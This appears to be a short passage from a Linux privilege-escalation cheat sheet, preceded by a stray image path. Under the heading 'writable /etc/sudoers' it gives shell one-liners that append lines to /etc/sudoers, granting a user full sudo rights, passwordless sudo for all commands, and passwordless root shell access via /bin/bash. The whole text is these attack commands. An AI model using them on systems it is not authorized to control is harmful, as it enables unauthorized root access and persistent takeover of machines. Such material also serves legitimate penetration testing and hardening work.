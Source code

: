 **writable /etc/sudoers**

```
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers
```

use SUDO without password
```
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```

